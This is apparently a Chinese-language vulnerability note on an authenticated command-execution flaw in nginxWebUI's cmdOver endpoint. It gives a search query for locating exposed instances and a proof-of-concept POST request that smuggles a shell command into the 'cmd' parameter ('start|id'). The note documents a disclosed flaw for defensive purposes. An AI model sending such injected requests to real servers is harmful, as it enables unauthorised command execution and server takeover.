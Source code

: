 # nginxWebUI cmdOver 后台命令执行漏洞

## 漏洞描述

nginxWebUI 后台存在命令执行漏洞，攻击者登录后台后可以执行任意命令获取服务器权限

## 漏洞影响

<a-checkbox checked>nginxWebUI </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1.png)

验证请求包

```php
POST /adminPage/remote/cmdOver

remoteId=local&cmd=start|id&interval=1
```

![img](../../../.vuepress/public/img/1656223447202-743e2c21-d042-4811-b135-d67b4155791e.png)